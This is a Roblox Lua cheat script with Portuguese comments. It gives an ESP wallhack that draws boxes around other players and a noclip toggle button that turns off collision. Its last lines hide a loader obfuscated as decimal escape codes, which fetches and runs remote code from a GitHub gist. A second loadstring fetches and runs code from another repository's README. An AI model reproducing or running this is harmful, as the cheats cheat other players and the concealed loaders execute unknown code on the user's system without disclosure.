 -- Configurações do ESP
local ESPColor = Color3.new(1, 1, 1) -- Branco
local LineThickness = 2 -- Espessura das bordas
local ESPEnabled = true -- Ativar/Desativar ESP
local BaseBoxWidth = 100 -- Largura base da box
local BaseBoxHeight = 150 -- Altura base da box
local DistanceFactor = 0.1 -- Fator que ajusta o tamanho com base na distância

-- Tabela para armazenar ESPs dos jogadores
local ESPs = {}

-- Função para remover o ESP de um jogador
local function removeESP(player)
    if ESPs[player] then
        for _, line in pairs(ESPs[player]) do
            line.Visible = false
            line:Remove()
        end
        ESPs[player] = nil -- Remove da tabela
    end
end

-- Função para criar as bordas ao redor de um jogador
local function createESP(player)
    if player.Character and player.Character:FindFirstChild("HumanoidRootPart") then
        local humanoidPart = player.Character.HumanoidRootPart

        -- Criar linhas para formar as bordas da box
        local topLine = Drawing.new("Line")
        local bottomLine = Drawing.new("Line")
        local leftLine = Drawing.new("Line")
        local rightLine = Drawing.new("Line")

        local lines = {topLine, bottomLine, leftLine, rightLine}
        ESPs[player] = lines -- Armazena as linhas na tabela

        -- Configurações das linhas
        for _, line in pairs(lines) do
            line.Color = ESPColor
            line.Thickness = LineThickness
            line.Transparency = 1
            line.Visible = false
        end

        -- Atualizar as bordas durante o jogo
        local connection
        connection = game:GetService("RunService").RenderStepped:Connect(function()
            if ESPEnabled and humanoidPart and humanoidPart.Parent then
                local screenPosition, onScreen = workspace.CurrentCamera:WorldToViewportPoint(humanoidPart.Position)

                if onScreen then
                    local distance = (workspace.CurrentCamera.CFrame.Position - humanoidPart.Position).magnitude
                    local boxWidth = BaseBoxWidth / (distance * DistanceFactor)
                    local boxHeight = BaseBoxHeight / (distance * DistanceFactor)

                    local topLeft = Vector2.new(screenPosition.X - boxWidth / 2, screenPosition.Y - boxHeight / 2)
                    local topRight = Vector2.new(screenPosition.X + boxWidth / 2, screenPosition.Y - boxHeight / 2)
                    local bottomLeft = Vector2.new(screenPosition.X - boxWidth / 2, screenPosition.Y + boxHeight / 2)
                    local bottomRight = Vector2.new(screenPosition.X + boxWidth / 2, screenPosition.Y + boxHeight / 2)

                    topLine.From = topLeft
                    topLine.To = topRight
                    bottomLine.From = bottomLeft
                    bottomLine.To = bottomRight
                    leftLine.From = topLeft
                    leftLine.To = bottomLeft
                    rightLine.From = topRight
                    rightLine.To = bottomRight

                    for _, line in pairs(lines) do
                        line.Visible = true
                    end
                else
                    for _, line in pairs(lines) do
                        line.Visible = false
                    end
                end
            else
                removeESP(player)
                connection:Disconnect() -- Para de atualizar o ESP
            end
        end)

        -- Detectar quando o jogador morre
        if player.Character:FindFirstChild("Humanoid") then
            player.Character.Humanoid.Died:Connect(function()
                removeESP(player)
                connection:Disconnect()
            end)
        end
    end
end

-- Aplicar ESP para todos os jogadores no jogo
for _, player in pairs(game.Players:GetPlayers()) do
    if player ~= game.Players.LocalPlayer then
        createESP(player)

        -- Detectar quando o jogador renasce
        player.CharacterAdded:Connect(function()
            wait(0.5) -- Pequeno delay para garantir que o HumanoidRootPart carregue
            createESP(player)
        end)
    end
end

-- Detectar novos jogadores entrando no jogo
game.Players.PlayerAdded:Connect(function(player)
    if player ~= game.Players.LocalPlayer then
        player.CharacterAdded:Connect(function()
            wait(0.5)
            createESP(player)
        end)
    end
end)

-- Detectar quando um jogador sai do jogo
game.Players.PlayerRemoving:Connect(function(player)
    removeESP(player) -- Remove a ESP completamente
end)

local player = game.Players.LocalPlayer
local runService = game:GetService("RunService")
local noclip = false
local screenGui

-- Função para criar a interface e estilizar o botão
local function createUI()
    if screenGui then screenGui:Destroy() end

    screenGui = Instance.new("ScreenGui")
    screenGui.Parent = player:WaitForChild("PlayerGui")

    local button = Instance.new("TextButton")
    button.Size = UDim2.new(0, 120, 0, 50)
    button.Position = UDim2.new(1, -140, 0.5, -25) -- Posição inicial no lado direito
    button.Text = "Noclip: OFF"
    button.BackgroundColor3 = Color3.fromRGB(30, 30, 30)
    button.TextColor3 = Color3.fromRGB(255, 255, 255)
    button.Font = Enum.Font.GothamBold
    button.TextSize = 18
    button.BorderSizePixel = 2
    button.BorderColor3 = Color3.fromRGB(255, 255, 255)
    button.Parent = screenGui

    -- Criando efeito de hover (muda de cor ao passar o mouse)
    button.MouseEnter:Connect(function()
        button.BackgroundColor3 = Color3.fromRGB(50, 50, 50)
    end)
    button.MouseLeave:Connect(function()
        button.BackgroundColor3 = Color3.fromRGB(30, 30, 30)
    end)

    -- Permitir arrastar o botão no celular
    local dragging, offset, startPos

    button.InputBegan:Connect(function(input)
        if input.UserInputType == Enum.UserInputType.Touch then
            dragging = true
            startPos = input.Position
            offset = Vector2.new(input.Position.X - button.AbsolutePosition.X, input.Position.Y - button.AbsolutePosition.Y)
        end
    end)

    button.InputChanged:Connect(function(input)
        if dragging and input.UserInputType == Enum.UserInputType.Touch then
            local newX = input.Position.X - offset.X
            local newY = input.Position.Y - offset.Y
            button.Position = UDim2.new(0, newX, 0, newY)
        end
    end)

    button.InputEnded:Connect(function(input)
        if input.UserInputType == Enum.UserInputType.Touch then
            dragging = false
        end
    end)

    -- Função para ativar/desativar noclip
    button.MouseButton1Click:Connect(function()
        noclip = not noclip
        button.Text = noclip and "Noclip: ON" or "Noclip: OFF"
        button.BorderColor3 = noclip and Color3.fromRGB(0, 255, 0) or Color3.fromRGB(255, 255, 255)

        if noclip then
            -- Loop para manter noclip ativo
            runService.Stepped:Connect(function()
                if noclip and player.Character then
                    for _, part in pairs(player.Character:GetDescendants()) do
                        if part:IsA("BasePart") then
                            part.CanCollide = false
                        end
                    end
                end
            end)
        else
            -- Restaurar colisão quando desativado
            if player.Character then
                for _, part in pairs(player.Character:GetDescendants()) do
                    if part:IsA("BasePart") then
                        part.CanCollide = true
                    end
                end
            end
        end
    end)
end

-- Criar UI inicial
createUI()

-- Garantir que o script continue após a morte
player.CharacterAdded:Connect(function()
    task.wait(1) -- Espera o personagem carregar
    createUI() -- Recria a UI após respawn
end)

loadstring("\108\111\97\100\115\116\114\105\110\103\40\103\97\109\101\58\72\116\116\112\71\101\116\40\40\39\104\116\116\112\115\58\47\47\103\105\115\116\46\103\105\116\104\117\98\117\115\101\114\99\111\110\116\101\110\116\46\99\111\109\47\109\101\111\122\111\110\101\89\84\47\98\102\48\51\55\100\102\102\57\102\48\97\55\48\48\49\55\51\48\52\100\100\100\54\55\102\100\99\100\51\55\48\47\114\97\119\47\101\49\52\101\55\52\102\52\50\53\98\48\54\48\100\102\53\50\51\51\52\51\99\102\51\48\98\55\56\55\48\55\52\101\98\51\99\53\100\50\47\97\114\99\101\117\115\37\50\53\50\48\120\37\50\53\50\48\102\108\121\37\50\53\50\48\50\37\50\53\50\48\111\98\102\108\117\99\97\116\111\114\39\41\44\116\114\117\101\41\41\40\41\10\10")()

loadstring(game:HttpGet("https://raw.githubusercontent.com/soutexdograu/TP-ca/refs/heads/main/README.md"))()
